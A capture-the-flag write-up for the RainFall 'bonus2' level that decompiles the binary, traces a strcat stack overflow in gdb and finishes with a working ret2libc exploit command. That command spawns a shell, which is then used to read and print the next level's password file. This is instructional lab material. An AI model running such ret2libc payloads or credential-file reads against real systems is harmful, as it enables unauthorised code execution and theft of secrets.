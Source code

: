 ## Step 1: Static & Dynamic Analysis

```c
0804873d  data_804873d:
0804873d                                         66 69 00               fi.
08048740  data_8048740:
08048740  6e 6c 00                                         nl.

08048484    int32_t greetuser()
08048484    {
08048484        uint32_t language_1 = language;
08048492        int32_t str;
08048492        
08048492        if (language_1 == 1)
08048492        {
080484c4            __builtin_memcpy(&str, "\x48\x79\x76\xc3\xa4\xc3\xa4\x20\x70\xc3\xa4\x69\x76\xc3\xa4\xc3\xa4\x20", 18);
080484e4            char var_3a_1 = 0;
08048492        }
08048492        else if (language_1 == 2)
080484f3            __builtin_strcpy(&str, "Goedemiddag! ");
08048497        else if (!language_1)
080484a7            __builtin_strncpy(&str, "Hello ", 7);
080484a7        
08048517        strcat(&str, &name);
08048528        return puts(&str);
08048484    }

08048529    int32_t main(int32_t argc, char** argv, char** envp)
08048529    {
08048529        if (argc != 3)
0804855a            return 1;
0804855a        
0804855a        void buff;
0804855a        __builtin_memset(&buff, 0, 76);
08048564        size_t size = 40;
0804856c        char* arg = argv[1];
08048574        void* tmp = &buff;
08048577        strncpy(tmp, arg, size);
08048584        size_t size2 = 32;
0804858c        arg = argv[2];
08048597        void buff2;
08048597        tmp = &buff2;
0804859a        strncpy(tmp, arg, size2);
0804859f        tmp = "LANG";
080485a6        char* lang_value = getenv(tmp);

080485ba        if (lang_value)
080485ba        {
080485bc            size_t lang_size = 2;
080485c4            arg = &data_804873d;
080485d3            tmp = lang_value;
080485d3            
080485dd            if (memcmp(tmp, arg, lang_size))
080485dd            {
080485eb                size_t var_a8_1 = 2;
080485f3                arg = &data_8048740;
08048602                tmp = lang_value;
08048602                
0804860c                if (!memcmp(tmp, arg, var_a8_1))
0804860e                    language = 2;
080485dd            }
080485dd            else
080485df                language = 1;
080485ba        }
080485ba        
08048629        __builtin_memcpy(&tmp, &buff, 76);
0804862b        return greetuser();
08048529    }
```

### Explanation

The `main()` function takes two arguments and checks for an environment variable named `LANG` to determine a language setting.

The first and second arguments are set into `buff` (`40` bytes max) and `buff2` (`32` bytes max).
The first argument is going to be passed `greetuser()` that will use `strcat()` to concatenate the paramterer to a string on the stack: `"Goedemiddag!"` if `LANG` is set with `nl`, `"Hyvää päivää"` if `LANG` is set with `fi`, or `"Hello"` by default.

```bash
(gdb) x/24wx $esp
0xbffffb70:    0xbffffb80    0xbffffbd0    0x00000001    0x00000000
0xbffffb80:    0x6c6c6548    0x4141206f    0x41414141    0x41414141
0xbffffb90:    0x41414141    0x41414141    0x41414141    0x41414141
0xbffffba0:    0x41414141    0x41414141    0x41414141    0x42424141
0xbffffbb0:    0x42424242    0x42424242    0x42424242    0x42424242
0xbffffbc0:    0x77777777    0x77777777    0x77777777    0x08048600
```

We can see here that `0x41414141` and `0x42424242` are not separated by a null bytes.
This is because `buff` and `buff1` are stored next to each other in the stack, and if an input bigger than `40` bytes is given to the first `strncpy()`, the string won't end with a null bytes.

When the final `strcat()` is called, it will concatenate the `str` and `buff` variables, however because of the lack of null terminated character at the end of `buff`, `buff_1` will also be read by `strcat()`. With the presence of the `18` chars already present in `str` if we are in the `fi` condition, a buffer overflow in `str` will occur and enabling us to overwrite the return address of `greetuser()` and perform a `ret2libc` attack.

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>

(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>

(gdb) info proc map
process 2892
Mapped address spaces:
	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/user/bonus2/bonus2
	 0x8049000  0x804a000     0x1000        0x0 /home/user/bonus2/bonus2
	0xb7e2b000 0xb7e2c000     0x1000        0x0 
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0 
	0xb7fdb000 0xb7fdd000     0x2000        0x0 
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]

(gdb) find 0xb7e2c000,0xb8000000,"/bin/sh"
0xb7f8cc58
```

## Step 2: Exploiting the Binary

```bash
bonus2@RainFall:~$ export LANG=fi
bonus2@RainFall:~$ ./bonus2 $(python -c "print('A' * 40)") $(python -c "print('B' * 18 + '\xb7\xe6\xb0\x60'[::-1] + '\xb7\xe5\xeb\xe0'[::-1] + '\xb7\xf8\xcc\x58'[::-1])")
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB`�����X���

$  cat /home/user/bonus3/.pass         
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```bash
